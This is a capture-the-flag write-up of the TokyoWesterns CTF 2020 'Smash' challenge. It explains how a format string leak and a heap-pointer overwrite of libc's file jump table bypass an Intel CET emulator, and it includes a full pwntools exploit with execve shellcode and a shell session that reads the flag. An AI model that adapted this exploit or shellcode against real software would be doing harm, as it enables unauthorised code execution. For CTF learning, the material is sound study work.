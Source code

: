 ```yaml
---
title: Smash - TokyoWesterns CTF 2020
date: 2020-09-22 20:05:10
author: Cyb0rG
author_url: https://twitter.com/_Cyb0rG
categories:
  - Pwn
  - CET
tags:
  - Exploitation
  - CET
  - BOF
  - Format String
  - TokyoWesterns CTF
---
```


**tl;dr**

+ Leak with Format String bug.
+ Use the arbitrary heap pointer write to overwrite `__GI__IO_file_jumps`.
+ Inject shellode in heap and get code execution in `dfprintf`.

<!--more-->

**Challenge Points:** 388
**Solves:** 9

We really had a great time this weekend playing this year's edition of TokyoWesterns CTF. In this post I'd like to share the intended solution for the challenge **Smash** which we could not solve during the CTF but the idea and the concept involved is worth sharing.

## Challenge description

To begin with , we've been provided with the challenge binary , `libc 2.31`, a runner bash script and a folder containing Intel's tool called Control-flow Enforcement Technology (CET).This was our first tackel with Intel's CET and the concept involved is truly worth sharing. 

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

All mitigations except canary have been enabled.

## Reversing

+ The input name function takes 0x20 bytes of user input and then does an `strdup` which stores our input on heap.
+ Next , `dprintf` is called on our input without any format specifier, hence we can leak required addresses with the format string bug.
+ After this , we're asked to enter `y` or `n` and if `y` is entered , the program further asks for another `input message` and then takes in another 0x38 bytes of input.
+ If `n` is entered , the program prints `Bye` with dprintf and directly exits.

Pretty straight forward, but where are the bugs?

## Exploit development

We actually have 2 overflows which let us corrupt rbp and pivot to almost anywhere, but wait, CET doesn't allow us to execute ROP chain directly. We have to find a way to get code execution.

### How Intel's CET works

Control-Flow Enforcement Technology promises to guard a binary against attacks such as ROP, JOP etc. It does so by allocating a `shadow stack` in mapped memory region. Whenever a function is called, apart from storing the return address on the program's thread stack , it also stores it on the shadow stack. So whenever the program returns from the function, the return address is comapared with the one stored on the shadow stack , if a match is found, the program executes smoothly,  and if not , the program aborts thus mitigating ROP.

Intel SDE provides an emulation that includes:

* Stack checks
* Indirect branch checks

From the above discussion, one thing gets clear , every function that is executed in the supervision of CET needs to begin with `endbr64`. Let's just bear that in mind and continue.

## In search of arbitrary write

Since we have our required leaks , we can now corrupt rbp with our first overflow in the step where program asks us to enter `y` or `n`. 

An important observation to be made here is that , after reading our input and storing on heap with strdup, the program copies the heap pointer to an offset of `rbp-0x8`.

Since , we overwrote rbp with an address of our choice , after the function executes `leave` , the rbp will be updated with the value that we specified.

Immediately after that, the following instructions copy the heap pointer storing our input to `rbp-0x8`.

```sh
mov    QWORD PTR [rbp-0x8],rax
mov    rax,QWORD PTR [rbp-0x8]
```

Thus , we have an arbitrary write of a heap pointer.

## Defeating CET

After analyzing a bit ,  we found out that the emulator that the CTF has provided us with does not check for the `NX` bit and few pages have been marked `read-write-executable` allowing us to now inject shellcode.

Now that we can execute shellode, we have to now select a target to get code execution.

## dprintf to the rescue

One important aspect of dprintf is that it uses a `temporary file structure` to carry out it's operations. With file structure operations, we can find out apt targets to get code execution. One such target function pointer is `_IO_new_file_finish` which is called internally inside `dprintf`. 

So , now our plan is :

+ Overwrite rbp to point to `_IO_new_file_finish + 8`.
+ Copy heap address to `_IO_new_file_finish`.
+ Fill heap with shellcode as CET doesn't implement NX.
+ Get code execution in dprintf.

Here's the full exploit code.

```py

from pwn import *
import sys

LIBC = ELF('./libc-2.31.so',checksec = False)
if(len(sys.argv)>1):
    io=remote("pwn01.chal.ctf.westerns.tokyo",29246)
    context.noptrace = True
else:
    io=process("./smash")

reu = lambda a : io.recvuntil(a)
sla = lambda a,b : io.sendlineafter(a,b)
sl = lambda a : io.sendline(a)
rel = lambda : io.recvline()
sa = lambda a,b : io.sendafter(a,b)
re = lambda a : io.recv(a)
s = lambda a : io.send(a)


if __name__ == "__main__":
    gdb.attach(io)
    sla('> ','%p '*9)
    re(55)
    stack = int(re(14),16)
    log.info("stack = " + hex(stack))
    re(1)
    code = int(re(14),16) - 0x1216
    log.info("code = " + hex(code))
    re(7)
    libc = int(re(14),16) - 0x270b3
    log.info("libc = " + hex(libc))
    target_stack = code + 0x40e8 #to be changed
    inp = stack - 0x60
    IO_file_jumps = libc + 0x1ed4a0
    pop_rdi = code + 0x000013d3
    payload  = b"\xf3\x0f\x1e\xfa" # endbr64
    payload += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    payload += b"\x90" * (0x30 - len(payload))
    payload += p64(IO_file_jumps + 0x10 + 8)[:6]
    sa('[y/n] ',payload)
    #sla('message > ','write to shadow')
    io.interactive()
```

Remember that the shellcode has to be started with `endbr64` instruction to bypass the indirect branch instruction check.

```console
[+] Opening connection to pwn01.chal.ctf.westerns.tokyo on port 29246: Done
[!] Skipping debug attach since context.noptrace==True
[*] stack = 0x7fffc7eb4d00
[*] code = 0x55a74550c000
[*] libc = 0x7f498f5bb000
[*] Switching to interactive mode

Bye!
$ ls
flag.txt
run.sh
sde
sde.tgz
smash
$ cat flag.txt
TWCTF{17_15_ju57_4n_3mul470r,n07_r34l_CET}
```


## Conclusion

This was one of the most interesting challenges I had come across in a while. The idea of a faulty emulator and CET was really cool. Kudos to team TokyoWesterns for such a cool challenge and such an awesome CTF.
